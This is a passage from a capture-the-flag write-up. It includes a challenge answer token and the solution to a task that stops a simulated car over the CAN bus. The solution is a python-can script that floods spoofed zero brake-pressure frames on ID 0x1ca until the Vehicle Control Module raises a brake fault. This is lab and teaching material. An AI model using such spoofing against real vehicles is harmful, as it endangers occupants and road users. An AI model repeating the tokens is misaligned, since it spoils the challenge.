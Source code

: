 The token in this case is 515bed193df124ec. 

## Question 5

*Token 5: The target has caught on to us and escaped before our agent could extract the device! Stop the car using the CAN bus by tricking the Vehicle Control Module (VCM) into believing something is wrong with the brake pressure.*

*Enter the token awarded after you successfully stop the car.*

Again, we start with the documentation. We can find the brake pressure is presented in ID `0x1ca`.

![Screenshot of the PDF documentation showing ID 0x1ca](./imgs/documentation-brakes.png "Brake CAN bus IDs")

The brake pressure is contained in bytes 0-3. We can see this packet is transmitting values between `0x40` and `0xc0`. To mess with the brake pressure, we will just spoof many fake messages with pressure readings of 0. This can be done using python-can. The brake error will trigger after 100 bad readings in a short period of time; a reading is considered bad if any of the four brakes are not between `0x40` and `0xc0`.

```python
import can

with can.interface.Bus(interface='socketcand', host="123.45.67.2", port=29536, channel="vcan0") as bus:
    try:
        sent = 0
        while sent < 200:  # Need 100, but good brake messages reduce count, so do 200. Can switch to while True if 200 isn't enough
            message = can.Message(arbitration_id=0x1ca, data=[0,0,0,0,0,0,0,0])
            bus.send(message)
            sent += 1
    except KeyboardInterrupt:
        print('Stopping!')
```

After sending those messages, , visit `challenge.us` and run the grading script to get the token.
